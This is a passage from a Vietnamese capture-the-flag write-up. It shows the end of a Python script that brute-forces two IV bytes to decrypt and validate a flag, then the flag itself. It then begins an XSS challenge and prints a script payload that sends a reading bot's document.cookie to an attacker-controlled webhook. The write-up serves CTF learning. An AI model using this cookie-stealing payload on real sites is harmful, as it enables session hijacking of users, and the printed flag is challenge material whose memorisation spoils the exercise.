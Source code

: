 ```python
        if msg[-i] != '\n':
            return False
    if msg[:5] != 'Flag{' or msg[37] != '}':
        return False
    for i in range(5, 37):
        if msg[i] not in '0123456789abcdef':
            return False
    return True

cnt = 0
s = string.printable

for i in s:
    for j in s:
        iv = iv_part1 + i + j
        msg = decrypt(cipher, key, iv)
        if check_msg(msg):
            print(i, j, msg.strip())
            cnt += 1

print(cnt)

```

`Flag{f4edced3a1c3e72be1257f232a7a78b6}`

## Web Exploitation

### XSS

> Các cậu còn nhớ sự kiện Livestream lần đầu tiên của Hazy , có một số bạn đã nghịch ngợm làm bay màu cái Chatbox. Đố bạn cho bay màu chal12 này đấy.

Ban đầu khi thấy cái tên bài là mình cũng đã bán tính bán nghi. Vì đa phần trong các bài web của ctf thì người chơi làm riêng lẻ, trong khi XSS chỉ gây hại ở client-side thay vì server-side, thế thì chơi kiểu gì nhỉ?

Mình tin chắc đây là tung hỏa mù thôi, nó phải là SSTI hay gì đó thì mới làm được chứ. 30 phút... 1 tiếng trôi qua... Không 1 manh mối.

Sau đó mình ngồi lại, đọc kĩ lại cái đề và cả những thứ trả về ở trang web xem mình bỏ sót cái gì không? 

> Sót thật

2 từ "receive" và "ticket" lúc mình nhập 1 cái gì đó xong là 1 cái hint to bự ám chỉ rằng có 1 con bot đang chờ mình nhập gì đó để nó sẽ đọc qua :v. Thế mình làm 1 cái payload đơn giản để redirect con bot sang 1 cái webhook mình tạo (Cái này nếu rành thì có thể setup bằng ngrok, heroku hoặc dùng những tool mì ăn liền như [webhook.site](https://webhook.site/) hay [hookbin.com](https://hookbin.com/) đều ok nha).

```html
<script>
	window.location = "<webhook url>?cookie=" + document.cookie;
</script>
```
